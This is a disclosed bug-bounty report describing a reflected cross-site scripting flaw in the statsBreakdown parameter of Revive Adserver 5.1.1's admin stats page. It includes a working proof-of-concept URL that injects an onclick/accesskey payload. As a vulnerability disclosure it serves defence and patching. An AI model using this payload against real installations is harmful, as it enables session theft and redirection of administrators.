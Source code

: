 # Reflected XSS on /admin/stats.php

## Report Details
- **Report ID**: 1097217
- **URL**: https://hackerone.com/reports/1097217
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-06T15:07:34.473Z
- **Disclosed**: 2021-03-16T15:08:42.201Z

## Reporter
- **Username**: solov9ev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: revive_adserver

## Vulnerability Information
Linked to the report [https://hackerone.com/reports/1083376](https://hackerone.com/reports/1083376)
I found a reflected XSS attack on `/admin/stats.php`.

Revive-Adserver version is `revive-adserver-5.1.1`.

### This time I found the parameter `statsBreakdown`

- Go to `http://revive-adserver.loc/admin/stats.php?statsBreakdown=day%27%20onclick=alert(document.domain)%20accesskey=X%20&listorder=key&orderdirection=up&day=&setPerPage=15&entity=global&breakdown=history&period_preset=last_month&period_start=01+December+2020&period_end=31+December+2020`

- For the payload to be executed, the user needs to press the access key combination for the hidden input field (for Firefox, Alt+Shift+X, see [this](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/accesskey) for other browsers).

{F1186275}

## Impact

With this vulnerability, an attacker can for example steal users cookies or redirect users on malicious website.

## Attachments
- _________________2021-02-06_17-59-59.png

